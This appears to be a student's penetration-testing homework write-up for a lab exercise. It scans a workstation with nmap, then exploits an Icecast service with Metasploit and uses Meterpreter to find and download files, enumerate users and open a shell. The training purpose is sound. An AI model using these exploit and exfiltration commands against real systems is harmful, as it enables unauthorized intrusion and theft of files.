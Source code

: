# **Brian C Williams 17-Penetration II Homework** # 

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
	
	Note: Instead of copying the entire path to the module, you can use the number in front of it.
        
	**Answer: use exploit/windows/http/icecast_header or use 0**
	
      ![Image of q5](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q5.PNG)

6. Set the RHOST to the target machine.
   
      Run the command that sets the RHOST:
	
      **Answer: set RHOST 192.168.0.20**
	
      ![Image of q6](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q6.PNG)
   
7. Run the Icecast exploit.

  	Run the command that runs the Icecast exploit.

	**Answer: run or exploit**
	
	![Image of q7](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q7.PNG)

8. Run the command that performs a search for the secretfile.txt on the target.

	**Answer**: search -f  *secretfile.txt**
	
	![Image of q8](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q8.PNG)

9. You should now have a Meterpreter session open.
   
      Run the command to performs a search for the recipe.txt on the target:

	**Answer**: search -f *recipe.txt
	
	![Image of q9](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q9.PNG)

	Bonus: Run the command that exfiltrates the recipe*.txt file:

	**Answer:** 	
	
			**download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt**
			
			**download c:\\Users\\IEUSER\\Documents\\user.secretfile.txt**
	
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q10.PNG)
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q12.PNG)

10. You can also use Meterpreter's local exploit suggester to find possible exploits.

	**Answer: run post/multi/recon/local_exploit_suggester**
	
	![Image of q10](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q11.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.
	
	**Answer: run post/windows/gather/enum_logged_on_users**

   ![Image of bonus1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B1.PNG)

B. Open a Meterpreter shell and gather system information for the target.
	
	**Answer: shell**
 		**systeminfo**
	
   ![Image of bonus2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B2.PNG)
	
C. Run the command that displays the target's computer system information:

	**Answer: sysinfo**
	
   ![Image of bonus3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B3.PNG)



